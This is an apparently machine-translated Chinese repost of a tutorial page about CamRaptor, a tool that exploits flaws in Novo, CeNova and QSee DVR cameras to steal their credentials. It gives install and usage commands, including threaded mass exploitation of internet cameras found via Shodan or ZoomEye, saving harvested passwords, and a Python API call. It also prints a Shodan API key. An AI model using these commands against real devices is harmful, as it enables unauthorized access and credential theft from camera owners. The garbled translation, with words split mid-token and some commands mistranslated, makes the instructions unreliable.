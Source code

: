 # CamRaptor:利用流行的 DVR 摄像机中的几个漏洞来获取网络摄像机凭证的工具

> 原文：<https://kalilinuxtutorials.com/camraptor/>

[![CamRaptor : Tool That Exploits Several Vulnerabilities In Popular DVR Cameras To Obtain Network Camera Credentials](img/bb65cfc8bf349538c256544f57d59daa.png "CamRaptor : Tool That Exploits Several Vulnerabilities In Popular DVR Cameras To Obtain Network Camera Credentials")](https://1.bp.blogspot.com/--QeKtiSQ2K0/YN61TRrVXYI/AAAAAAAAJxg/xj1QOjtmFU4_pYQbiZNgrnhDYUNQDqPSgCLcBGAsYHQ/s1011/1%2B%25281%2529.png)

**CamRaptor** 是一个利用流行的 DVR 摄像机中的几个漏洞来获取网络摄像机凭证的工具。

**特性**

*   利用最流行的相机型号中的漏洞，如`**Novo**`、`**CeNova**`和`**QSee**`。
*   经过优化，可在启用线程的情况下同时利用列表中的多个摄像头。
*   简单的 CLI 和 API 用法。

**安装**

**pip3 安装 git+https://github . com/enty sec/cam raptor**

**基本用法**

要使用 CamRaptor，只需在终端中键入`**camraptor**`。

**用法:CamRaptor[-h][-t][-o OUTPUT][-I INPUT][-a ADDRESS]
[–shod an shod an][–zoo meye zoo meye][-p PAGES]
CamRaptor 是一个利用流行的 DVR
摄像机中的几个漏洞来获取网络摄像机凭证的工具。
可选参数:
-h，–help 显示此帮助消息并退出
-t，–线程使用线程进行最快的工作。
-o 输出，–输出输出
输出结果到文件。
-i 输入，–INPUT 输入
输入文件的地址。
-一个地址，–地址地址
单个地址。
–SHODAN SHODAN SHODAN API 密钥，用于通过互联网利用设备。
–用于通过互联网利用设备的 zoomeye ZOOMEYE ZoomEye API 密钥。
-p PAGES，–PAGES PAGES
你想从 ZoomEye 获取的页数。**

**例题**

**利用单个摄像头**

让我们黑了我的相机只是为了好玩。

**cam raptor-a 192 . 168 . 99 . 100**

**利用互联网上的摄像头**

让我们尝试使用 Shodan 搜索引擎来开发互联网上的相机，我们将使用它与`**-t**`快速开发。

**迅猛龙-t-【shodan PSK qe1 gyxggecyz 2191 h2jos 9 qvgd】**

**注:**给定的 Shodan API key **( `PSKINdQe1GyxGgecYz2191H2JoS9qvgD` )** 是我的 PRO API key，你可以使用这个 key 或者你自己的，可以自由的免费使用我们所有的资源。

**利用输入文件中的摄像机**

让我们尝试使用带有`**-t**`的开放式摄像机数据库进行快速开发。

**camraptor-t-I camera s . txt-o passwords . txt**

**注意:**会根据地址利用 **`cameras.txt`** 列表中的所有摄像机，并将获得的所有密码保存到 **`passwords.txt`。**

**API 使用**

CamRaptor 也有自己的 Python API，可以通过将 CamRaptor 导入到代码中来调用。

**从 camraptor 进口 CamRaptor**

**基本功能**

有所有 CamRaptor 的基本功能，可用于开发指定的摄像机。

*   `**exploit(address)**`–利用给定地址的单个摄像头。

**例题**

**利用单个摄像头**

**从 camraptor 导入 cam raptor
cam raptor = cam raptor()
creds = cam raptor . exploit(' 192 . 168 . 99 . 100 ')
print(creds)**

[**Download**](https://github.com/EntySec/CamRaptor)